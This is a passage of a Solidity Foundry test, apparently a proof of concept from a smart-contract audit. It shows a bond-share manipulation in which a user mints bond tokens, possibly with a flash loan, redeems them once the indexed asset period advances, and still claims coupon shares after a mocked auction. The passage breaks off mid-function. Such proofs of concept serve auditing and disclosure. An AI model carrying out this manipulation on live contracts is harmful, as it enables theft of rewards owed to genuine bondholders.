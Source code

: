```solidity
    // Mint and approve reserve tokens
     rToken = Token(params.reserveToken);
    rToken.mint(governance, 100 ether);
    rToken.approve(address(poolFactory), 100 ether);

    pool = Pool(poolFactory.createPool(params, 100 ether, 2500 ether, 100 ether, "", "", "", "", false));
    bond = pool.bondToken();
    lev = pool.lToken();
    pool.setAuctionPeriod(10 days);
    vm.stopPrank();
  }

  function testBondShareManipulation() public {

    // Mint coupon required
    vm.startPrank(governance);
    Token sharesToken = Token(pool.couponToken());
    sharesToken.mint(address(pool), totalBuyCouponAmount); // 4062.5 * 2.5 /
    vm.stopPrank();



    vm.startPrank(user);
    uint initAmount = 50 ether;
    deal(address(rToken), user, initAmount); // it could be flash loan more or less according to situation
    rToken.approve(address(pool), rToken.balanceOf(user));
    uint mintedBond = pool.create(Pool.TokenType.BOND, rToken.balanceOf(user), 0);
    console.log("Minted Bond",mintedBond);
    console.log("total suppy", bond.totalSupply());
    vm.stopPrank();


    // User just have to call start Auction
    // increase indexed asset period - this is done by Pool when Auction starts but its mocked on this test
    vm.startPrank(address(pool)); // mocking as pool
    pool.bondToken().increaseIndexedAssetPeriod(params.sharesPerToken);
    vm.stopPrank();

    // Note Now user can easily redeem it, as the shares are already minted, 
    // and redeeming the bond wouldn't affect the shares.
    vm.startPrank(user);
    uint amount = pool.redeem(Pool.TokenType.BOND, mintedBond, 0); // redeeming bond
    assert(amount >= initAmount); // safely withdrwal deposit amount

    // Mocking whole auction period so we can claim the shares
    vm.startPrank(user); 
    fakeSucceededAuction(address(pool), 0);
    vm.mockCall(
      address(0),
      abi.encodeWithSignature("state()"),
      abi.encode(uint256(1))
    );
    vm.mockCall(
      address(0),
      abi.encodeWithSignature("totalBuyCouponAmount()"),
      abi.encode(uint256(totalBuyCouponAmount)) // 10156.25
    );
    
    pool.distribute();
    address distributor = poolFactory.distributors(address(pool));
```